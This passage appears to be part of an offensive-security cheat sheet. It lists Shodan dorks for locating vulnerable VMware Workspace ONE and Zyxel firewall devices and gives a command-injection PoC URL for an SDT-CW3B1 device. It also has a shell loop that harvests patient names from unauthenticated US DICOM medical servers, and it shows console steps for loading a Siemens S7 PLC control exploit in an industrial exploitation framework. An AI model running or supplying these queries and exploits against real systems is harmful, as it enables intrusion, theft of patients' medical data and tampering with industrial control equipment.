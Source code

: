 Yealink T49G
```

## CVE-2022-22954
VMware Workspace ONE Access and Identity Manager contain a remote code execution vulnerability due to server-side template injection. A malicious actor with network access can trigger a server-side template injection that may result in remote code execution.
```
http.favicon.hash:-1250474341
```

## Exposed DICOM Servers
Count patient names in US exposed DICOM medical servers with no authentication
```
$ shodan download search "tag:medical" "country:us"; shodan parse --fields ip_str search.json.gz > usa_dicom_ip ; for i in `cat usa_dicom_ip` ; do echo "///// Now connecting to $i ////" ; findscu -v -to 1 -P -k PatientName="*" $i 104 >> us_dicom_patient_names; wc -l us_dicom_patient_names ; done
```

## Zyxel Firewall Unauthenticated Remote Command Injection
Rapid7 discovered and reported a vulnerability that affects Zyxel firewalls supporting Zero Touch Provisioning (ZTP), which includes the ATP series, VPN series, and the USG FLEX series (including USG20-VPN and USG20W-VPN). The vulnerability, identified as CVE-2022-30525, allows an unauthenticated and remote attacker to achieve arbitrary code execution as the nobody user on the affected device.
```
title:"USG FLEX 100","USG FLEX 100w","USG FLEX 200","USG FLEX 500","USG FLEX 700","USG FLEX 50","USG FLEX 50w","ATP100","ATP200","ATP500","ATP700"
```

## SDT-CW3B1 1.1.0 - OS Command Injection (CVE-2021-46422)
```
poc:http://<IP>/cgi-bin/admin.cgi?Command=sysCommand&Cmd=id
```

# ISF (Industrial Exploitation Framework)

## Exploits

    isf > use exploits/plcs/

    exploits/plcs/siemens/  exploits/plcs/vxworks/

    isf > use exploits/plcs/siemens/s7_300_400_plc_control

    exploits/plcs/siemens/s7_300_400_plc_control

    isf > use exploits/plcs/siemens/s7_300_400_plc_control

    isf (S7-300/400 PLC Control) >

    

You can use the tab key for completion.

## Options

### Display module options:

    isf (S7-300/400 PLC Control) > show options

    

    Target options:

    
```
